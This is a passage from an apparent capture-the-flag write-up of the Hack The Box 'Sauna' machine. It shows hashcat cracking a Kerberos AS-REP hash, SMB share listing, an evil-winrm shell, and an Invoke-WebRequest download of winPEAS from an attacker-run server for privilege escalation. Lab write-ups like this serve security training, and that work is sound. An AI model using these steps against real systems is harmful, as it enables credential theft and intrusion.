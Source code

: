 ```console
kali@kali:~/HTB/sauna$ hashcat -m 18200 -a 0 -o crack.txt hash.txt /usr/share/wordlists/rockyou.txt --force
kali@kali:~/HTB/sauna$ cat crack.txt 
$krb5asrep$23$user@EGOTISTICAL-BANK.LOCAL:HASH:PASSWORD
```
I then try to connect to samba, hope to find juicy info there
```console
kali@kali:~/HTB/sauna$ smbclient -L \\sauna.htb -U user
Enter WORKGROUP\user's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        RICOH Aficio SP 8300DN PCL 6 Printer   We cant print money
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available

```
nope nothing here but it is fine, we already got a user so let just get user flag. now using ```evil-winrm``` to get shell on target machine
```console
kali@kali:~/impacket/examples$ evil-winrm -i 10.10.10.175 -u username -p password
```
ofc the flag is located in Desktop.


I move to \Users to check users on the target machine.
```cmd
*Evil-WinRM* PS C:\Users\XXXX\Documents> cd ..
*Evil-WinRM* PS C:\Users\XXXX> cd ..
*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/25/2020   1:05 PM                Administrator
d-----        6/15/2020   3:56 PM                XXXXX
d-r---        1/22/2020   9:32 PM                Public
d-----        1/24/2020   4:05 PM                svc_loanmgr
```
The compromised user have very stricted permission and cant not do much. My plan was using winPEAS to find out a way which I can user to privesc and get root.


to get winPEAS, I needed to run simplehttpserver using python on kali machine and then using compromised machine to get winPEAS.bat. U can use the following command to dowload file from server.
```cmd
*Evil-WinRM* PS C:\Users> Invoke-WebRequest -Uri "http://ip:port/winPEAS.bat" -OutFile "C:\Users\XXXXX\Downloads\winPEAS.bat"
```
then lauch it!! here is some juicy info
```
_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] USERS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-

User accounts for \\

-------------------------------------------------------------------------------
Administrator            FSmith                   Guest
HSmith                   krbtgt                   svc_loanmgr
The command completed with one or more errors.
```